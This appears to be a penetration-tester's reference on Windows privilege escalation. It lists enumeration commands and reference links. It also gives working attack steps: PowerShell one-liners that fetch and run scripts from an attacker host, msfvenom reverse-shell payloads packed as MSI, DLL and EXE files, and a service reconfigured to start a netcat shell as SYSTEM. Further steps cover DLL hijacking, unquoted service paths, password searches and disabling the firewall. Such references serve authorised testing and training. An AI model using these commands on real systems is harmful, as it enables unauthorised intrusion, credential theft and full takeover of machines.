 ############################
Windows Privilege Escalation
############################

TODO
====

* https://github.com/mubix/post-exploitation
* https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
* https://github.com/pentestmonkey/windows-privesc-check
* https://github.com/togie6/Windows-Privesc
* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
* https://guif.re/windowseop
* https://lolbas-project.github.io/
* https://github.com/sagishahar/lpeworkshop
* https://ostrokonskiy.com/posts/windows-privilege-escalation.html
* https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html
* https://github.com/frizb/Windows-Privilege-Escalation
* https://github.com/rasta-mouse/Watson
* https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
* https://github.com/codingo/OSCP-2
* https://labs.portcullis.co.uk/blog/windows-named-pipes-there-and-back-again/
* https://github.com/psychomario/pyinject
* https://resources.infosecinstitute.com/poor-mans-process-migration-windows/
* https://toshellandback.com/2015/11/24/ms-priv-esc/21/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* https://github.com/skelsec/pypykatz
* https://github.com/Ben0xA/nps
* https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
* http://virgil-cj.blogspot.com/2018/02/escalation-time.html

Quick Wins
==========

1. Windows OS exploits. Google "<Windows Version> privilege escalation" for some of the more popular ones. Add "x86" or "x64" to be more specific. searchsploit can be used as well, though sometimes the name / description won't include the specific version number.

2. Program exploits. Look for non-default programs installed. Try to enumerate version. Google + searchsploit.

3. Use accesschk.exe to check for services / files with bad permissions.

4. Check for passwords in files / the registry. We might get lucky and be able to RDP in. (reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon")

5. Use "Citrix" breakout techniques if we have a GUI that is running as SYSTEM. Many ways to spawn a shell.

6. Are we running as "nt authority\\network service"? Use token kidnapping (churrasco.exe).


Information Gathering
=====================

Automated Scripts
-----------------

| **Powerless:** :download:`Powerless.bat </_static/files/Powerless.bat>` (https://github.com/M4ximuss/Powerless)
| **Windows Enumeration Script:** :download:`winenum.bat </_static/files/winenum.bat>` (https://github.com/h1gh1and3r/Pentesting/blob/master/Scripts/winenum.bat)
| **Windows Enumeration Powershell Script:** :download:`WindowsEnum.ps1 </_static/files/WindowsEnum.ps1>` (https://github.com/stillinsecure/WindowsEnum/blob/master/WindowsEnum.ps1)
| **WMIC Info Script:** :download:`wmic_info.bat </_static/files/wmic_info.bat>` (http://www.fuzzysecurity.com/scripts/files/wmic_info.rar)
| https://github.com/AlessandroZ/BeRoot

PowerUp
^^^^^^^

| https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

PowerUp is part of the PowerSploit framework. It will search for various privilege escalation methods. Either download the script onto the target and run via a PowerShell instance:

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> Import-Module .\PowerUp.ps1
    PS C:\> Invoke-AllChecks

Or run from cmd.exe directly:

.. code-block:: none

    powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

If uploading to the target is difficult, we can run from memory:

.. code-block:: none

    powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<attacker-port>/PowerUp.ps1'); Invoke-AllChecks"

WindowsEnum
^^^^^^^^^^^

**Requires PowerShell 3.0+**

| https://github.com/stillinsecure/WindowsEnum/blob/master/WindowsEnum.ps1

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> .\WindowsEnum.ps1 extended

.. code-block:: none

    C:\> powershell.exe -nologo -exec bypass bypass -file WindowsEnum.ps1 extended

Windows Exploit Suggester - Next Generation
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

| https://github.com/bitsadmin/wesng

Save the output of the :code:`systeminfo` command and pass it to the program:

.. code-block:: none

    python3 wes.py systeminfo.txt | grep --color -B5 "Privilege" | less

Sherlock
^^^^^^^^

An outdated PowerShell script which shows you exploits that are available for the current system. Either download the script onto the target and run via a PowerShell instance:

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> Import-Module .\Sherlock.ps1
    PS C:\> Find-AllVulns

Or run from cmd.exe directly:

.. code-block:: none

    powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

If uploading to the target is difficult, we can run from memory:

.. code-block:: none

    powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<attacker-port>/Sherlock.ps1'); Find-AllVulns"

**Windows Kernel Exploits:** https://github.com/SecWiki/windows-kernel-exploits

Code and (sometimes) compiled executables that exploit kernel vulnerabilities.

System Information
------------------

Information about the operating system, version, hostname, etc.

.. code-block:: none

	systeminfo
	hostname
	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
	type C:\Windows\system32\eula.txt
	type C:\Windows\System32\license.rtf

Pass the output of systeminfo to wes.py with an updated microsoft security bulletin database:

.. code-block:: bash

    python3 wes.py --update
    python3 wes.py systeminfo.txt | grep --color -B5 "Privilege" | less

Who Are We?
-----------

Methods to figure out which user we are currently logged in as.

.. code-block:: none

	whoami
	echo %username%

If neither of the above work, try:

.. code-block:: none

    title offsec && for /f "tokens=2,8" %a in ('tasklist /v ^| findstr "offsec"') do echo Current User: %b, Current PID: %a

Environment
-----------

Environment variables can often reveal interesting information:

.. code-block:: none

    set
    echo %path%

Installed Apps
--------------

List installed apps    

.. code-block:: none

wmic product get name,version     - cmd

Get-AppxPackage        - powershell

Get-AppPackage         -powershell


Powershell all in one script(Works well shows all hidden apps from registries):    

``
foreach ($UKey in 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*','HKLM:\SOFTWARE\Wow6432node\Microsoft\Windows\CurrentVersion\Uninstall\*','HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*','HKCU:\SOFTWARE\Wow6432node\Microsoft\Windows\CurrentVersion\Uninstall\*'){foreach ($Product in (Get-ItemProperty $UKey -ErrorAction SilentlyContinue)){if($Product.DisplayName -and $Product.SystemComponent -ne 1){$Product.DisplayName}}}
``


Directory Listing
-----------------

List all directories, including hidden and Alternate Data Streams (ADS):

.. code-block:: none

    dir /r

Get the list of folders and files in tree structure:

.. code-block:: none

    tree /a /f

Files
-----

Read file contents:

.. code-block:: none

    type file.txt
    powershell Get-Content file.txt

Find alternate data streams (ADS):

.. code-block:: none

    dir /R <directory>

Find alternate data streams with powershell:

.. code-block:: none

    powershell Get-Item -Path <directory> -Stream *

Read the alternate data stream (ADS) (note: only works on NT6+):

.. code-block:: none

    powershell Get-Content file.txt -Stream hidden.txt

Show file permissions:

.. code-block:: none

    cacls file.txt
    icacls file.txt
    powershell Get-Acl file | fl *

User / Group Enumeration
------------------------

List users and user groups on the machine.

.. code-block:: none

	net users
	net localgroup

List Administrators:

.. code-block:: none

    net localgroup Administrators

View User Info
--------------

List information about a specific user (use against your current user, and any users identified)

.. code-block:: none

	net user user1

Especially of interest would be any groups our user has other than "Users".

List Domain Groups
------------------

List any groups which are part of the domain.

.. code-block:: none

	net group /domain

List Members of Domain Group
----------------------------

List members of domain groups previously identified.

.. code-block:: none

	net group /domain <Group Name>

Find other Windows hosts on the network
---------------------------------------

.. code-block:: none

    net view

Drives
------

List configured disk drives.

.. code-block:: none

    wmic logicaldisk get name
    wmic logicaldisk get caption
    fsutil fsinfo drives
    powershell -Command "get-psdrive -psprovider filesystem"

List locally shared drives:

.. code-block:: none

    net share

Network
-------

Display network interfaces, the routing table, and the ARP cache for the host.

.. code-block:: none

	ipconfig /all
	route print
	arp -A

Active Connections
------------------

Display all active connections, plus any local ports that are being listened to by a process. A local address of "0.0.0.0" or "[::]" implies that the process is listening for external connections.

.. code-block:: none

	netstat -ano
    netstat /anto

Firewall
--------

Display the state of the firewall, plus the current configuration.

Note: the "netsh" command is only available from XP SP2 onwards.

.. code-block:: none

    netsh firewall show state
    netsh firewall show config
    netsh advfirewall show all
    netsh advfirewall firewall show rule profile=any name=all

Scheduled Tasks
---------------

This will usually display a long detailed list of currently scheduled tasks, including ones that run on boot.

.. code-block:: none

	schtasks /query /fo LIST /v

Look for tasks where "Run As User" is set to some user with high privileges (e.g. SYSTEM). See if we can overwrite the executable.

Viewing loaded DLLs
-------------------

View all loaded DLLs

.. code-block:: none

    tasklist /m

Find specific DLLs

.. code-block:: none

    tasklist /m | find /i <dll name>

Running Processes (with Service Names)
--------------------------------------

List all running processes, plus PID and service name.

.. code-block:: none

	tasklist /SVC

List Started Services
---------------------

List the names of services which are running.

.. code-block:: none

	net start

List Services
-------------

List all services with statuses and some other info. Run without "brief" for way more details.

.. code-block:: none

	wmic service list brief

List Installed Device Drivers
-----------------------------

.. code-block:: none

	driverquery

Check Patches
-------------

.. code-block:: none

    wmic qfe get Caption,Description,HotFixID,InstalledOn

    wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

The best strategy is to look for privilege escalation exploits and look up their respective KB patch numbers. Such exploits include, but are not limited to, KiTrap0D (KB979682), MS11-011 (KB2393802), MS10-059 (KB982799), MS10-021 (KB979683), MS11-080 (KB2592799). After enumerating the OS version and Service Pack you should find out which privilege escalation vulnerabilities could be present. Using the KB patch numbers you can grep the installed patches to see if any are missing.

Mass Rollout Files
------------------

If there is an environment where many machines need to be installed, typically, a technician will not go around from machine to machine. There are a couple of solutions to install machines automatically. What these methods are and how they work is less important for our purposes but the main thing is that they leave behind configuration files which are used for the installation process. These configuration files contain a lot of sensitive sensitive information such as the operating system product key and Administrator password. What we are most interested in is the Admin password as we can use that to escalate our privileges.

.. code-block:: none

    c:\sysprep.inf
    c:\sysprep\sysprep.xml
    %WINDIR%\Panther\Unattend\Unattended.xml
    %WINDIR%\Panther\Unattended.xml

Group Policy
------------

Group Policy preference files can be used to create local users on domain machines. When the box you compromise is connected to a domain it is well worth looking for the Groups.xml file which is stored in SYSVOL. Any authenticated user will have read access to this file.

The default location for SYSVOL is:

.. code-block:: none

    %SYSTEMROOT%\SYSVOL

Dump the current GPO for the host / user:

.. code-block:: none

    gpresult /R > gpo_results.txt

In addition to Groups.xml several other policy preference files can have the optional "cPassword" attribute set:

* Services\Services.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc980070.aspx>`__
* ScheduledTasks\ScheduledTasks.xml: `Task Inner Element <http://msdn.microsoft.com/en-us/library/cc422920.aspx>`__, `TaskV2 Inner Element <http://msdn.microsoft.com/en-us/library/dd341350.aspx>`__, `ImmediateTaskV2 Inner Element <http://msdn.microsoft.com/en-us/library/dd304114.aspx>`__
* Printers\Printers.xml: `SharedPrinter Element <http://msdn.microsoft.com/en-us/library/cc422918.aspx>`__
* Drives\Drives.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc704598.aspx>`__
* DataSources\DataSources.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc422926.aspx>`__

AlwaysInstallElevated
---------------------

If the AlwaysInstallElevated registry setting is enabled it allows users of any privilege level to install \*.msi files as NT AUTHORITY\\SYSTEM.

.. code-block:: none

    # This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

If both keys are enabled, create a .msi payload:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f msi -o /path/to/payload.msi

After uploading the payload, it can be executed using msiexec:

.. code-block:: none

    msiexec /quiet /qn /i payload.msi

| /quiet = suppress messages
| /qn = No GUI
| /i = Regular installation


Search Files / Registry
-----------------------

Search for files with filenames containing certain words:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Search certain file types for a keyword, this can generate a lot of output:

.. code-block:: none

    findstr /si password *.xml *.ini *.txt

Search the registry for keywords, in this case "password":

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

accesschk.exe
-------------

The accesschk.exe binary can be used to enumerate group permissions on Windows services. The following table shows the permissions which are useful to us:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

:download:`Download accesschk.exe </_static/files/accesschk.exe>`

List all services and the permissions each user level has on them.

.. code-block:: none

    accesschk.exe /accepteula -ucqv *

List services which the "Authenticated Users" user group have permissions over (remember to check other user groups you are a member of).

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

List permissions for a specific service:

.. code-block:: none

    accesschk.exe /accepteula -ucqv Spooler

List permissions for a specific directory:

.. code-block:: none

    accesschk.exe /accepteula -dqv "C:\Path"

Find all weak folder permissions per drive:

.. code-block:: none

    accesschk.exe /accepteula -uwdqs Users C:\
    accesschk.exe /accepteula -uwdqs "Authenticated Users" C:\

Find all weak file permissions per drive:

.. code-block:: none

    accesschk.exe /accepteula -uwqs Users C:\*.*
    accesschk.exe /accepteula -uwqs "Authenticated Users" C:\*.*

Examples
========

Weak Service Permissions
------------------------

Reconfiguring the upnphost service to execute a netcat reverse shell with SYSTEM level privileges:

.. code-block:: none

    C:\> accesschk.exe /accepteula -ucqv upnphost

    upnphost

      RW NT AUTHORITY\SYSTEM
            SERVICE_ALL_ACCESS
      RW BUILTIN\Administrators
            SERVICE_ALL_ACCESS
      RW NT AUTHORITY\Authenticated Users
            SERVICE_ALL_ACCESS
      RW BUILTIN\Power Users
            SERVICE_ALL_ACCESS
      RW NT AUTHORITY\LOCAL SERVICE
            SERVICE_ALL_ACCESS

    C:\> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : NT AUTHORITY\LocalService

    C:\> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    [SC] ChangeServiceConfig SUCCESS

    C:\> sc config upnphost obj= ".\LocalSystem" password= ""
    [SC] ChangeServiceConfig SUCCESS

    C:\> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : LocalSystem

    C:\> net start upnphost

Power Users
-----------

On Windows XP and below, users in the "Power Users" group can easily elevate themselves to fully-privileged administrators.

The following article describes some methods, but most are already covered if you have used accesschk.exe properly above: https://blogs.technet.microsoft.com/markrussinovich/2006/05/01/the-power-in-power-users/

DLL Hijacking
-------------

Source: http://www.greyhathacker.net/?p=738

If an SYSTEM-level application / service references a DLL that we have write access to, we can replace it and get a SYSTEM-level shell. If the application / service references a DLL which doesn't exist, getting a SYSTEM-level shell may still be possible.

Find executables and DLLs that are directly called by the application / service, and open them in a decompiler to find references to other DLLs.

Generally a Windows application will use pre-defined search paths to find DLLs and it will check these paths in a specific order. DLL hijacking usually happens by placing a malicious DLL in one of these paths while making sure that DLL is found before the legitimate one. This problem can be mitigated by having the application specify absolute paths to the DLLs that it needs.

You can see the DLL search order on 32-bit systems below:

1. The directory from which the application loaded
2. 32-bit System directory (C:\\Windows\\System32)
3. 16-bit System directory (C:\\Windows\\System)
4. Windows directory (C:\\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (system then user)

Sometimes an application / service attempts to load a DLL which does not exist on the machine. In these cases, Windows will attempt to find it by traversing the search paths above. Putting a DLL in 1-4 is not possible, 5 would only work for applications and not Windows services. If a user has write access to any of the directories in the Windows PATH, escalation is possible.

Check the current path:

.. code-block:: none

    echo %path%

Check access permissions with accesschk.exe or cacls:

.. code-block:: none

    accesschk.exe /accepteula -dqv "C:\Python27"

    cacls "C:\Python27"

Check status of vulnerable service. If the START_TYPE is set to AUTO_START it will launch on boot.

.. code-block:: none

    sc qc IKEEXT

Create a malicious DLL:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f dll -o payload.dll

Replace the original DLL with the malicious version and restart the application / service.

Known Vulnerable Windows Services
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. csv-table:: **Windows 7 (32/64)**
    :header: "Service", "DLL"

    "IKE and AuthIP IPsec Keying Modules (IKEEXT)", "wlbsctrl.dll"
    "Windows Media Center Receiver Service (ehRecvr)", "ehETW.dll"
    "Windows Media Center Scheduler Service (ehSched)", "ehETW.dll"

The Windows Media Center Services startup type is set to manual and status not started and will only give us only Network service privileges so it may not be much use especially with its limited privileges. It can however be started temporarily via certain scheduled tasks:

.. code-block:: none

    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\mcupdate"
    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\MediaCenterRecoveryTask"
    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\ActivateWindowsSearch"

.. csv-table:: **Windows XP**
    :header: "Service", "DLL"

    "Automatic Updates (wuauserv)", "ifsproxy.dll"
    "Remote Desktop Help Session Manager (RDSessMgr)", "SalemHook.dll"
    "Remote Access Connection Manager (RasMan)", "ipbootp.dll"
    "Windows Management Instrumentation (winmgmt)", "wbemcore.dll"
    "Audio Service (STacSV)", "SFFXComm.dll, SFCOM.DLL"
    "Intel(R) Rapid Storage Technology (IAStorDataMgrSvc)", "DriverSim.dll"
    "Juniper Unified Network Service(JuniperAccessService)", "dsLogService.dll"
    "Encase Enterprise Agent", "SDDisk.dll"

Abusing unquoted ImagePath values that contain spaces
-----------------------------------------------------

When SC starts a service, if the ImagePath contains a space then you can abuse a Windows feature which attempts to find an executable at every space location.

Find a service that has an unquoted service path:

.. code-block:: none

    reg query HKLM/system/currentcontrolset/services/SkypeUpdate
    ...
    ImagePath    REG_EXPAND_SZ    C:\Program Files (x86)\Skype\Updater.exe
    ...

When this service is started, Windows will walk the directory structure and attempt to execute an .exe at each space (C:\Program.exe, C:\Program Files.exe, etc.)

Create a malicious .exe file:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f exe -o Program.exe

Move the .exe to C:\ and restart the service.

.. code-block:: none

    copy Program.exe C:\Program.exe
    sc stop SkypeUpdate
    sc start SkypeUpdate

Disable Windows Firewall
------------------------

.. code-block:: none

    netsh advfirewall set allprofiles state off
    netsh firewall set opmode disable

Sources
=======

* http://www.fuzzysecurity.com/tutorials/16.html
